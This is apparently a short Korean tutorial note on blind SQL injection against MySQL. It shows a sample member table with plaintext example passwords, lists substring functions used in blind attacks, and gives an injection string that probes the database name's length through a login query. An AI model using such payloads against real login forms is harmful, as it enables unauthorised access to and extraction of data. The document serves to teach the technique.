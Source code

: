 # blind sql injection

## 예시 db 구조
<br>

~~~~sql
database => testdb

table => member

mysql[testdb] >SELECT * FROM member;

+-------+--------+
| id    |  pw    |
+-------+--------+
| guest | test   |
| admin | passwd |
+-------+--------+
~~~~

### Blind Sql Injection Function List
* * *
<br>

```sql
mid()
left()
right()
instr()
substr()
substring()...
```

## database length
* * *

```sql
admin User database length blind sql injection

SELECT * FROM member WHERE id='' or length(database())=0~10--'' and pw=''

-> Mysql database length
```
<br>

database() 로 데이터 베이스 이름을 알수있고

length 로 database() 의 결과값 길이를 출력하게 한다.

* * *

<br>

